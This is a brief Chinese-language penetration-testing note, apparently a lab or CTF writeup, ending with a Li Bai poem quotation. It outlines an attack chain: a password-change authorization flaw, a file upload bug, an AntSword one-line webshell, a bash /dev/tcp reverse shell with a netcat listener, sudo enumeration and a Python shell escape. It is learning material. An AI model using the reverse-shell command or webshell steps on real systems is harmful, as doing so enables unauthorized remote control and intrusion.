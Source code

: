  - **网站逻辑漏洞**，越权之修改密码。

 - **文件上传漏洞**。

 - **蚁剑连接一句话木马**。

 - **反弹 shell**：
1、kali：`nc -lv -p <端口>`
2、server：`bash -c 'exec bash -i &>/dev/tcp/<IP>/<端口> <&1'`

> - `bash -c`：让系统运行一个新的 Bash shell，`-c` 选项后是实际要执行的命令。
> - `exec`：替换当前 shell 进程。这意味着之前的 shell 进程将被关闭，而新的 Bash shell 将接管标准输入、标准输出和标准错误流。
> - `bash -i`：启动一个交互式 Bash shell，`-i` 表示这是一个交互式的 shell，可以接受用户输入。
> - `&>`：重定向操作符，将后续的命令的标准输出和标准错误都重定向到一个文件或设备。在这里即 `/dev/tcp/<IP>/<端口>`，将标准输出和标准错误都重定向到一个指定的 IP 地址和端口。
> - `<&1`：将标准输入重定向到标准输出。确保在建立连接后，用户可以在远程 shell 中输入命令。


 - **Linux 权限、环境变量相关知识**。

 - **查看用户具有的 sudo 权限**：
`sudo -l`

 - **提权**，通过系统调用实现。

 - **python 获取 shell**。

```python
import os;
os.system("/bin/bash")
```


---

<p><font color="#FF6A6A">
若待功成拂衣去，武陵桃花笑杀人。
</font></p>
<p align="right"><font color="#FF6A6A">
——《当涂赵炎少府粉图山水歌》（唐）李白
</font></p>

